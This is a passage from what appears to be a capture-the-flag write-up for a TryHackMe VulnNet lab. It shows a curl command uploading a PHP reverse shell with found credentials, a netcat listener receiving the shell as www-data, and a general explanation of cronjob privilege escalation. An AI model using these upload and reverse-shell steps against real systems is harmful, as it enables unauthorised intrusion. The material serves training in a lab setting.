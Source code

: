     ```html
    ┌──(nazu㉿Nazu)-[~/Desktop/CTF/THM-CTF/VulnNet]
    └─$ curl -u developers:9972761drmfsls -F "file=@reverse.php" -F "plupload=1" -F "name=reverse.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php" creating file{"success":"yes","file_name":"165752453575eede","extension":"php","file_directory":"CB_BEATS_UPLOAD_DIR"}
    ```
    

**then go to ⇒ [`http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/`](http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/) then click and open ur reversh shell**

```html
┌──(nazu㉿Nazu)-[~/Desktop/CTF/THM-CTF/VulnNet]
└─$ nc -lvlp 1234
listening on [any] 1234 ...
connect to [10.18.29.75] from vulnnet.thm [10.10.76.135] 55184
Linux vulnnet 4.15.0-134-generic #138-Ubuntu SMP Fri Jan 15 10:52:18 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 18:52:45 up 4 min,  0 users,  load average: 0.27, 1.21, 0.66
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

# Privilege Escalation:

### cronjob:

> A cron job is a command or script that is **scheduled** to run at a specified time or interval. The cron job is usually set up using the crontab command, which allows users to edit their cron table (crontab) and define commands to run periodically on a given schedule.
> 
> 
> To create a cron job, you must first edit your crontab file using the command:
> `crontab -e`
> 
> This will open an editor where you can enter your desired commands and specify when they should be executed
> 

> Cronjob Privilege Escalation is a type of priv esc that exploits vulnerabilities arising from inadequate control of privileged stored procedures used to schedule jobs such as cronjobs on Linux systems.
> 

> For example of a Cronjob Privilege Escalation can be seen when a user with low privileges is able to configure a cronjob which is executed by root, which will elevate the user’s privileges. For example, consider a vulnerable system that allows unprivileged users to execute any program owned by the root user. If an attacker manages to insert a malicious script in the crontab entry, the script will be executed with root privileges and can effectively take control of the system resulting in privilege escalation.
> 
